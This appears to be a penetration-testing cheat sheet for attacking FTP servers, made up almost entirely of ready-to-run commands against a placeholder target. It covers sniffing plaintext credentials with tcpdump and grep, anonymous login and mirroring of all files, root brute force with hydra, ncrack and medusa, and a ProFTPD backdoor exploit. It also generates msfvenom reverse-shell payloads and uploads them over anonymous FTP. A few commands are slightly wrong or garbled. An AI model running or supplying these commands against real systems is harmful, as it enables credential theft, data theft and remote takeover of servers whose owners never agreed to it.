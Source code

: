 # 21 - FTP
## NMAP FTP Enumeration

    $ nmap -p 21 [TARGET_IP] 

## Banner Grabbing 

    $ telnet [TARGET_IP] 21 
    $ nc -vn [TARGET_IP] 21 

## NMAP Unauth Enum 
Checks if an FTP server allows anonymous logins.

    $ sudo nmap -sV -p21 -sC -A [TARGET_IP]

## TCPDump FTP Traffic 

    $ tcpdump -vvAs0 port ftp or ftp-data

Capture credentials in plain text through unencrypted traffic (HTTP, FTP, TELNET)

    $ tcpdump -A -i eth0 'port http or port ftp or port telnet' | grep -i 'user\|pass\|login'

## FTP Connection 
Access the host utilizing FTP

    $ ftp [TARGET_IP]
    $ ftp@[TARGET_IP] 
    $ ccftp [TARGET_IP]

## FTP Access: Anonymous 
FTP login attempt on host with the user anonymous.

    $ ftp [TARGET_IP]username:anonymous

## Available Metasploit Options

    auxiliary/scanner/ftp/anonymous
    auxiliary/scanner/ftp/ftp_version
    auxiliary/scanner/ftp/ftp_login
    exploit/unix/ftp/proftpd_133c_backdoor

## Browser Connection 

    ftp://anonymous:anonymous@[TARGET_IP] 

## Download all files from FTP 

    $ wget -m ftp://anonymous:anonymous@[TARGET_IP]
    $ wget -m --no-passive ftp://anonymous:anonymous@[TARGET_IP]

## Connect to FTP using starttls 

    $ lftp
    $ lftp :~> set ftp:ssl-force true
    $ lftp :~> set ssl:verify-certificate no
    $ lftp :~> connect [TARGET_IP] 
    $ lftp [TARGET_IP]:~> login                        

Usage: login <user|URL> [<pass>]

    $ lftp [TARGET_IP]:~> login username Password 

### If username/password is found:

    1. Connect client to FTP Server through WinSCP
    2. Protocol to: FTP
    3. Encryption To: No Encryption
    4. Host name: IP of the FTP Server
    5. Port: 21
    6. Username and Password: anonymous: anonymous
    7. Click on login
 
## FTP Brute Force 

    $ hydra -l root -P passwords.txt [-t 32] [TARGET_IP] ftp
    $ ncrack -p 21 --user root -P passwords.txt [TARGET_IP] [-T 5]
    $ medusa -u root -P 500-worst-passwords.txt -h [TARGET_IP] -M ftp

## Metasploit - Upload File through FTP (Windows)
    1. > Use exploit/multi/handler 
        Options 
        Set payload windows/meterpreter/reverse_tcp
        Set lhost
        Run
        
    2. Open separate terminal and create custom payloads:
        $ msfvenom -P windows/meterpreter/reverse_tcp LHOST=<IPAddress> LPORT=4444 -f aspx -o <filename.aspx>
        $ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
        $ msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf 
        
    3. $ FTP [TARGET_IP] 21
        > Username= anonymous, password = none
        > Put <filename.aspx>
